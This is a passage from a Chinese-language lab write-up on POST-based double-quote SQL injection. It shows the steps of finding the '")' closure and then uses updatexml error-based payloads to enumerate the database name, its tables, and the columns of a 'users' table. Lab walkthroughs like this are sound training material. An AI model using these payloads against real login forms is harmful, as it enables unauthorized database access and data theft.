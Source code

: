 过了

## 12. POST双引号注入

根据之前的经验直接进行抓包

* 看看有没有报错

![image](https://user-images.githubusercontent.com/76896357/114964967-4a196180-9ea2-11eb-9bdf-46395f3b513b.png)

有报错，也许可以进行报错注入

* 查看闭合方式

![image](https://user-images.githubusercontent.com/76896357/114965197-b98f5100-9ea2-11eb-9251-046380f5712d.png)

是“）的闭合方式

* 试一试能不能联合查询

![image](https://user-images.githubusercontent.com/76896357/114965323-f2c7c100-9ea2-11eb-94a0-fb8bec808777.png)

很显然，有回显，那么和上一题几乎一样

#### 接下来试一下updatexml爆错注入

* 查库

```
uname=-admin") and updatexml(1,concat('^',(select database()),'^'),1)#&passwd=1&submit=Submi
```
![image](https://user-images.githubusercontent.com/76896357/114965654-96b16c80-9ea3-11eb-9b54-fef2caf8a761.png)

* 查询所有库
```
uname=-admin") and updatexml(1,concat('^',(select group_concat(database()) from information_schema.schemata),'^'),1)#&passwd=1&submit=Submi
```

![image](https://user-images.githubusercontent.com/76896357/114965789-e3954300-9ea3-11eb-8a88-e79a408c4b9a.png)

* 查表
```
uname=-admin") and updatexml(1,concat('^',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'^'),1)#&passwd=1&submit=Submi
```
![image](https://user-images.githubusercontent.com/76896357/114965919-28b97500-9ea4-11eb-933a-a52000908768.png)

* 查列

```
uname=-admin") and updatexml(1,concat('^',(select group_concat(column_name) from information_schema.columns where table_name='users'),'^'),1)#&passwd=1&submit=Submi
```

![image](https://user-images.githubusercontent.com/76896357/114966102-7d5cf000-9ea4-11eb-9655-261e870b9bd9.png)
